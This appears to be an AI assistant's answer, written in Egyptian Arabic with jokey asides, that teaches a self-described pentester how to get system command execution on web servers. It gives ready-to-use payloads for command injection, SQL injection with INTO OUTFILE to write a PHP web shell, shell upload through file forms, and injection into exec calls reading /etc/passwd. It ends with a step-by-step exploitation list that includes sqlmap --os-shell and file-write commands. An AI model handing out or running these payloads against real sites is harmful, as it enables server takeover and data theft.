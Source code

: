تمام، هنشرح استغلال **System Command Execution** (تنفيذ أوامر النظام) بعمق عملي مع أكواد وتفاصيل، وهنركز على الجوانب اللي تهمك كـ pentester. هقسم الموضوع لأجزاء عن التقنيات المختلفة، وبعد كل جزء هحط خلاصة طريفة بالعامية المصرية، وفي الآخر هقدم خطوات عملية للاستغلال. يلا نبدأ!

---

### **1. استغلال Command Injection عبر مدخلات المستخدم**
#### **إيه هو؟**
Command Injection بيحصل لما الموقع بياخد مدخلات منك (زي حقل بحث أو أمر) ويمررها مباشرة للسيرفر عشان ينفذها كأوامر نظام من غير فلترة.

#### **ازاي بيشتغل؟**
بتحط أوامر نظام (زي `whoami` أو `ls`) مع الفاصلة المناسبة (`;` أو `&&`) عشان تضيف أمرك للأمر الأصلي.

#### **مثال عملي:**
- لنفترض عندك حقل في موقع بياخد IP ويعمل ping:
  ```
  http://example.com/ping.php?ip=127.0.0.1
  ```
  الكود في الباك إند:
  ```php
  system("ping " . $_GET['ip']);
  ```
- جرب:
  ```
  http://example.com/ping.php?ip=127.0.0.1;whoami
  ```
  لو السيرفر نفذ الأمرين، هيرجعلك نتيجة الـ ping واسم المستخدم (زي `www-data`).

- **اختبار أمر مختلف:**
  ```
  http://example.com/ping.php?ip=127.0.0.1&&dir
  ```
  لو السيرفر Windows، هيطلعلك محتويات المجلد.

#### **خلاصة طريفة:**
تخيل إنك بتقول لصاحبك "روح جيبلي عصير، وبعدين قوللي اسمك"، لو جابلك العصير وقالك اسمه، يبقى هو بيسمع كلامك زيادة عن اللزوم!

---

### **2. استغلال SQL Injection لتنفيذ أوامر النظام**
#### **إيه هو؟**
لو الداتابيز عندها صلاحيات عالية (زي MySQL مع `FILE` privileges)، تقدر تستخدم SQL Injection عشان تكتب ملف على السيرفر وتنفذ أوامر من خلاله.

#### **ازاي بيشتغل؟**
بتستخدم أوامر زي `INTO OUTFILE` عشان تكتب ملف شيل (Shell) وبعدين تستخدمه.

#### **مثال عملي:**
- **اختبار الصلاحيات:**
  ```
  ' UNION SELECT 1, @@version, @@datadir --
  ```
  لو رجعلك مسار زي `/var/www/html/`، يبقى تقدر تكتب ملف.

- **كتابة شيل:**
  ```
  ' UNION SELECT 1, '<?php system($_GET["cmd"]); ?>' INTO OUTFILE '/var/www/html/shell.php' --
  ```
  افتح:
  ```
  http://example.com/shell.php?cmd=whoami
  ```
  لو رجعلك اسم المستخدم، يبقى نجح.

#### **خلاصة طريفة:**
تخيل إنك بتقول لصاحب البيت "كتبلي ورقة للخدامين يسمعوا كلامي"، لو كتبها ونفذوا الأوامر، يبقى بقيت إنت الكبير في البيت!

---

### **3. استغلال File Upload لتنفيذ أوامر**
#### **إيه هو؟**
لو الموقع بيسمحلك ترفع ملفات من غير ما يفحصها كويس، تقدر ترفع ملف فيه كود (زي PHP Shell) وتنفذ أوامر من خلاله.

#### **ازاي بيشتغل؟**
بترفع ملف فيه كود تنفيذي وبعدين تطلبه من السيرفر عشان يشتغل.

#### **مثال عملي:**
- **إنشاء الملف:**
  ```
  echo '<?php system($_GET["cmd"]); ?>' > shell.php
  ```
- ارفعه في حقل Upload في الموقع.
- لو الملف اتresolve لـ:
  ```
  http://example.com/uploads/shell.php
  ```
  افتحه:
  ```
  http://example.com/uploads/shell.php?cmd=whoami
  ```
  لو رجعلك اسم المستخدم، يبقى شغال.

#### **خلاصة طريفة:**
تخيل إنك بتبعت هدية لصاحبك فيها رسالة "افتح الباب واديني كل حاجة"، لو فتحها ونفذ، يبقى البيت بقى بتاعك!

---

### **4. استغلال Misconfigured Functions**
#### **إيه هو؟**
بعض الدوال في لغات البرمجة (زي `system()` أو `exec()` في PHP) لو اتسخدمت غلط، بتسمحلك تنفذ أوامر نظام لو قدرت تحقن كود.

#### **ازاي بيشتغل؟**
بتلاقي حقل أو باراميتر بيترجم مباشرة لدالة تنفيذية، وتحقن أمر معاها.

#### **مثال عملي:**
- لو موقع بياخد إدخال ويستخدمه في:
  ```php
  exec("cat " . $_GET['file']);
  ```
  جرب:
  ```
  http://example.com/script.php?file=/etc/passwd;whoami
  ```
  هيجيبلك الملف وينفذ الأمر.

#### **خلاصة طريفة:**
تخيل إنك بتقول للجرسون "جيبلي الأكل من المطبخ، وكمان قوللي مين اللي طبخه"، لو نفذ الاتنين، يبقى هو بيخدمك أكتر من اللازم!

---

### **خطوات عملية للاستغلال كـ Pentester**
1. **اختبار Command Injection:**
   - في أي حقل أو باراميتر (زي `ip` أو `file`):
     ```
     127.0.0.1;whoami
     ```
     أو:
     ```
     127.0.0.1&&dir
     ```
     لو رجع نتيجة، يبقى شغال.

2. **استغلال SQL Injection:**
   - جرب:
     ```
     ' UNION SELECT 1, @@datadir --
     ```
     لو لقيت مسار، اكتب شيل:
     ```
     ' UNION SELECT 1, '<?php system($_GET["cmd"]); ?>' INTO OUTFILE '/var/www/html/shell.php' --
     ```
     افتح `shell.php?cmd=whoami`.

3. **استغلال File Upload:**
   - اصنع ملف:
     ```
     echo '<?php system($_GET["cmd"]); ?>' > shell.php
     ```
   - ارفعه وجرب:
     ```
     http://example.com/uploads/shell.php?cmd=whoami
     ```

4. **اختبار Misconfigured Functions:**
   - لو في باراميتر زي `file`:
     ```
     http://example.com/script.php?file=test;whoami
     ```
     أو:
     ```
     test&&netstat -an
     ```

5. **استخدام أدوات (sqlmap):**
   - جرب شيل:
     ```
     sqlmap -u "http://example.com/product.php?id=1" --os-shell
     ```
   - أو اكتب ملف:
     ```
     sqlmap -u "http://example.com/product.php?id=1" --file-write=/home/user/shell.php --file-dest=/var/www/html/shell.php
     ```

#### **نصيحة:**
- جرب فواصل مختلفة (`;`, `&&`, `|`, `&`) عشان تعرف أي واحد بيشتغل.
- لو السيرفر بيرجع أخطاء، استخدمها عشان تعرف نوع النظام (Linux/Windows).

---

ها، عايز أشرح حاجة زيادة زي ازاي تتأكد من نوع النظام أو أعمق في أدوات؟
